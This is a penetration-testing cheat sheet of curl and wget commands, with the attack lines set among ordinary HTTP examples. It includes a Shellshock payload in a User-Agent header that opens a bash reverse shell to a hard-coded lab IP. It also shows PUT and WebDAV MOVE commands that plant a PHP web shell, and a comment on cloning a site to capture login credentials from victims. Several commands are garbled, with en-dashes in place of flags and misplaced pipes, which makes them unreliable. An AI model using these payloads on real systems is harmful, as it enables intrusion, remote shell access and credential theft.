 ### curl
```bash
# get webpage
curl localhost

# get webpage –include protocol response headers
curl –i localhost

# get webpage verbose output
curl –v localhost

# --data  POST used by default
curl –d "first=dan&second=hag" localhost 

# --data  PUT
curl –X PUT –d "first=dan&second=hag" localhost

 # delete
curl –X DELETE localhost

# authenticate
curl –u your_username:your_password localhost

# download and save file
curl –o test.jpg localhost/test.jpg

curl –I http://10.11.1.71/cgi-bin/admin.cgi -s | html2text
curl -T 'leetshellz.txt' 'http://$ip' # Upload with curl
curl -X MOVE --header 'Destination:http://$ip/leetshellz.php' 'http://$ip/leetshellz.txt'

# check before seq
curl http://10.10.10.10/index.php/jobs/apply/8 –s grep | '<title>'

# pulls post 0-20 titles from website
for i in $(seq 0 20); do echo –n "$i: "curl http://10.10.10.10/index.php/jobs/apply/$i –s grep | '<title>'; done

curl -H "User-Agent: () { :; }; /bin/bash -c 'echo aaaa;  bash -i >& /dev/tcp/10.11.0.165/443 0>&1; echo zzzz;'" http://10.11.1.71/cgi-bin/admin.cgi -s | sed -n '/aaaa/{:a;n;/zzzz/b;p;ba}'  
```

### wget
```bash
# single page
wget http://www.example.com/filename.txt -o /path/filename.txt

# clone full site/continue
wget –c –mk http://www.example.com -o /path/folder
# Serve the cloned site. Get credentials from login and redirect victim to genuine site

wget –m –no-passive ftp://anonymous:anonymous@ip
```

